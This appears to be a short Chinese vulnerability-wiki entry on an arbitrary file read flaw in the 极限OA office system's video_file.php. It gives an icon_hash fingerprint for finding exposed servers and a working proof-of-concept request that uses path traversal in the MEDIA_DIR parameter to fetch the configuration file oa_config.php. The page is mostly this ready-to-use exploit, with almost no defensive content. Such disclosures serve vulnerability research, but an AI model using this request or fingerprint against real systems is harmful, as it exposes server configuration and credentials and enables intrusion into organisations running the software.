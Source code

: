 # 极限OA video_file.php 任意文件读取漏洞

## 漏洞描述

极限OA video_file.php存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

<a-checkbox checked>极限OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1967132225"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1657611799572-0a7316e9-7d7d-4c8c-8e5c-891904bc474f-20220712154642026.png)

验证POC

```php
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php
```

![img](/assets/PeiQi-Wiki/img/1657611948243-17fb2a06-755a-4e18-8e12-36aef770134c.png)